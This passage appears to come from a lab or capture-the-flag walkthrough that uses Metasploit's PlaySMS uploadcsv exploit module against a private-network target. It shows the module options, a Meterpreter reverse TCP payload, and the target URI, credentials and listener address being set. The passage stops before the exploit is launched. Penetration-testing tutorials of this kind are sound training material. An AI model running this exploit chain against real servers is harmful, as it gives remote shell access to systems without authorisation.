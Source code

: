 ```shell
msf > use exploit/multi/http/playsms_uploadcsv_exec
```

Next we are going to change our settings to point this module at our target so
that we can see if it is exploitable. Sometimes you will need to set a variable
multiple times in multiple modules. We can use `setg` to get the variable
globally to make things easier.

```shell
msf > options

Module options (exploit/multi/http/playsms_uploadcsv_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   admin            yes       Password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/bas
                                         ics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base playsms directory path
   USERNAME   admin            yes       Username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   PlaySMS 1.4



View the full module info with the info, or info -d command.

msf > set targeturi /SecreTSMSgatwayLogin
targeturi => /SecreTSMSgatwayLogin
msf > setg rhosts 192.168.56.3
rhosts => 192.168.56.3
msf > set username touhid
username => touhid
msf > set password diana
password => diana
msf > setg lhost eth1
lhost => 192.168.56.5
```
